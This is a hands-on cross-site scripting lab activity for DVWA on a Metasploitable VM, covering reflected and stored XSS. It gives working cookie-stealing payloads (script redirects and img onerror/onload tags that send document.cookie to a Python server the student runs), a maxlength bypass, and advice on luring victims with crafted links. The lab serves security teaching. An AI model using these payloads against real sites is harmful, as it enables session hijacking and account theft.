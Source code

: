 ```yaml
---
title: "Activity: XSS"
description: A hands-on activity exploring XSS with DVWA
published: true
include_toc: true
slug: xss
---
```


# Setup

For this activity, run virt-manager and start your Metasploitable VM. Browse to <http://192.168.56.102/dvwa> from a browser with Kali and log with username `admin` and password `password`.

**Important:** On the menu on the left, select "DVWA Security" and change the security level to "low".

Select SQL Injection, and click "View Help" and "View Source" to understand what SQL query is being used.

---

**Objective:** Run your own JavaScript in another user's browser, use this to steal the cookie of a logged in user.


# XSS -- Reflected

In DVWA, select `XSS reflected`.



## Be annoying

Enter the following tag in the `name` field

```html
<h1>Hello world!</h1>
```

This shows that the field is rendering HTML. Therefore, we could try using the script tag.

```html
<script>alert("You have been hacked!")</script>
```

View the source code to see that the fully formed `<script>` tags are there.

This is annoying, but could we do something dangerous, like steal the authentication cookie so we could log in as the user?

## Steal a cookie

Enter the following into the `name` field

```html
<script>alert(document.cookie)</script>
```

Now we see the cookie. We could send a social engineering attack to the user to have them click on a link, like this (URL copied from result):

```html
http://127.0.0.1:42001/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E#
```

This would `alert` the victim's cookie in the victim's browser, but the cookie would only displayed on the victim's computer. We can change that by running our own webserver and referencing our server in our URL. Run the following in a shell on kali to start a web server on Kali on port 8888:

```shell
python3 -m http.server 8888
```

And craft a new attack by entering the following into the `name` field:

```html
<script>window.location='http://127.0.0.1:8888/?cookie='+ document.cookie</script>
```

This sent the cookie to us, the attacker. You could copy the new URL from the browser and send it to a victim, to get their cookie.

{% include lab-image.html image='python-webserver-dvwa-xss.png' %}

This approach works, but it could be confusing or alarming to the victim because the page is redirected because of the `window.location` script instruction. To avoid this redirection, we could use different method of using an `img` instead.

## Use HTML `img` `onerror` attribute

The following site shows a list of other tags and events we could use besides the script tag.

<https://portswigger.net/web-security/cross-site-scripting/cheat-sheet>

{% include lab-image.html image='portswigger-xss-cheat-sheet.png' %}

We could load a non-existent image and run our code within its `onerror` event:

```html
<img src=x onerror=this.src='http://127.0.0.1:8888/?c='+document.cookie>
```

Submit the above into the `name` field of the `XSS Reflected` page in order to get a new URL. Then, verify that this cookie is obtained in the Python HTTP server log. This works, but a drawback is that it constantly refreshes the page.

Alternatively, this page will load an actual icon (but with 0-size width and height to be invisible to the user) so that page will not refresh (all one line):

```html
<img src=http://192.168.56.102/dvwa/favicon.ico width=0 height=0 onload=this.src='http://127.0.0.1:8888/?c='+document.cookie>
```

# XSS -- stored

Visit the `XSS Stored` page of DVWA. Enter the following line into the comment field:

```html
<script>alert("You have been hacked!")</script>
```

Now navigate to a different page and come back to the XSS Stored page. See that the message is repeated every time the page is loaded. Any visitor who visits the page will receive our XSS attack.

Now try our cookie-stealing attack from before. Enter the following into the "comment" field:

```html
<img src=http://192.168.56.102/dvwa/favicon.ico width=0 height=0 onload=this.src='http://127.0.0.1:8888/?c='+document.cookie>
```

Except, there is a problem -- the comment field has truncated the input: 

{% include lab-image.html image='dvwa-comment-truncated.png' %}

However, this restriction is imposed by the web browser, and therefore, we can bypass it. Right-click the comment field and select "Inspect element":

{% include lab-image.html image='dvwa-inspect-element.png' %}

This will highlight the comment field in the Document Object Model (DOM) held by the browser for this page. Double-click the `maxlength` attribute on the highlighted `textarea` element. Delete the value between the double-quotes. 

{% include lab-image.html image='dvwa-edit-maxlength.png' %}

Press `enter` to commit the change. Then, attempt again to paste in our cookie-stealing attack. It should now be possible to post the entire attack to the "comment" box:

{% include lab-image.html image='dvwa-maxlength-edited.png' %}

Enter a "name" for your malicious post, and submit the comment. The page should reload, and your attack should now work for anyone who visits the page. Confirm this by checking whether your python http server received the cookie for the page refresh.







<!-- # XSS -- DOM  -->

<!-- This requires a newer version of DVWA. Available via docker... -->

<!--

Visit the `XSS DOM` page of DVWA.

Show that you can change the default language, which changes a URL parameter. 

In the URL, change the parameter value from "German" to:

```html
http://127.0.0.1:42001/vulnerabilities/xss_d/?default=<script>alert("You have been hacked!")</script>
````

Then try:

```html
http://127.0.0.1:42001/vulnerabilities/xss_d/?default=<script>window.location='http://127.0.0.1:8888/?cookie='+ document.cookie</script>
``` 

-->


# Learn more

To learn more, experiment with this extensive list of XSS filter evasion techniques from OWASP:

<https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html>


